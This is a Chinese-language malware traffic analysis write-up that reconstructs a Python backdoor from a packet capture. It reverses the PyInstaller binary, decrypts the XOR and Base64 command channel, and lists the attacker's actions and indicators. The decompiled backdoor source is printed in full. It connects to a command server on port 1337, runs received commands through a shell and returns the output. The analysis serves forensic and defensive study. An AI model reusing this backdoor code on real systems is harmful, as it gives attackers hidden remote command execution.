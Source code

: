 ```yaml
---
title: '恶意软件流量分析：基于 Python 的后门与 XOR-Base64 C2 通信'
description: '详细分析使用 XOR 加密和 Base64 编码执行命令的 Python 编译恶意软件，包括网络流量剖析和有效载荷逆向工程'
date: 2025-02-27
tags: ['Malware-analysis', 'Reverse-engineering', 'Network-forensics', 'Python-security', 'xor-encryption', 'base64-encoding','threat-hunting', 'C2-communication']
image: './assets/image-20250227160346860.png'
authors: ['0xd00']
---
```


## 初始信息

捕获网络流量包文件`.pcap`一份，包含异常通信行为

## 流量分析

![导入pcap文件](./assets/image-20250227144525368.png)

## 流量过滤

可以看到若干`ssh`流量，`ssh`的传输都是加密的所以先给过滤掉

发现可疑请求路径`/base64_client`

![发现特殊路径](./assets/image-20250227150835278.png)

### 异常HTTP会话
```http
GET /base64_client HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.0.2.64
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.4
Date: Fri, 27 Oct 2023 03:06:00 GMT
Content-type: application/octet-stream
Content-Length: 16181879
Last-Modified: Fri, 27 Oct 2023 03:05:03 GMT
```

查看请求头和响应头可以看到是通过`Wget`从python的`SimpleHTTP`下载文件，这就非常像是攻击者的常用手法

### 文件提取

导出`HTTP`对象进行分析

![导出HTTP对象](./assets/image-20250227151245629.png)


## 逆向工程

### 文件预处理

![查看追踪数据流](./assets/image-20250227151956920.png)

因为格式看起来可能是`base64`编码，所以尝试进行解

```bash
cat base64_client | base64 -d > client
binwalk client
```

![解码并判断文件类型](./assets/image-20250227152159783.png)

可以确定，这是一个`linux`环境下的`x86`架构可执行文件

```bash
objdump -x client
```

![通过objdump获取更多信息](./assets/image-20250227153006517.png)

`pydata`段通常保存`pyc`，由此可以判断此程序通过python编写，可能通过`pyinstaller`打包

尝试运行也可以证明

![尝试运行](./assets/image-20250227153305684.png)

### pyinstaller逆向


```bash
python pyinstxtractor.py ./client
```

![使用pyinstxtractor反编译](./assets/image-20250227153728901.png)

使用`https://github.com/extremecoders-re/pyinstxtractor.git`来提取`pyc`文件

### 核心代码逆向

接下来尝试使用`uncompyle6`来进行反编译

```bash
uncompyle6 -o client_extracted client_extracted/client.pyc
```

```python
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "MySup3rXoRKeYForCommandandControl".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))
```

到这里已经知道了攻击者的流量加密方式：(xor+base编码)、端口(1337)、执行的命令混淆在图片的base64编码重，使用AAAAAAAAAA分割

![在数据流中查找分割字符串](./assets/image-20250227155757779.png)

## 攻击链重置

在`wireshark`中过滤`1337`端口，判断攻击者执行的命令

尝试解码全部请求数据，可以看到攻击者用于隐藏操作命令的图片

![CyberChef解码数据1](./assets/image-20250227160244152.png)

![CyberChef解码数据2](./assets/image-20250227160319723.png)

![CyberChef解码数据3](./assets/image-20250227160346860.png)

### 编写解密代码

```python
import re
import base64

file_path = 'data.txt'
xor_key = "MySup3rXoRKeYForCommandandControl"

def xor_decrypt(data, key):
    return ''.join(chr(b ^ ord(key[i % len(key)])) for i, b in enumerate(data))

with open(file_path) as file:
    content = file.read()
    matches = re.findall(r"AAAAAAAAAA(.*?)iVBORw", content)

    for match in matches:
        try:
            decoded_command = base64.b64decode(match)
            print("Decrypted Command:", xor_decrypt(decoded_command, xor_key))
        except Exception as e:
            print("Error decoding command:", e)
```
### 确认攻击者操作序列
![查看解密出的命令](./assets/image-20250227162330454.png)


攻击者首先确认了当前用户的身份与权限

浏览历史命令获取更多信息

通过历史命令获取了明文数据库密码

添加了一个具有root权限的用户

制作具有SUID的后门`/usr/bin/passswd`并检查文件权限

使用`md5sum`校验哈希值是否相等

通过定时任务实现其他目标

## 技术指标

| 指标类型   | 具体内容                          |
| ---------- | --------------------------------- |
| C2服务器   | 10.0.2.64:1337                    |
| 加密算法   | XOR + Base64                      |
| 密钥       | MySup3rXoRKeYForCommandandControl |
| 持久化方式 | SUID后门账户、定时任务            |
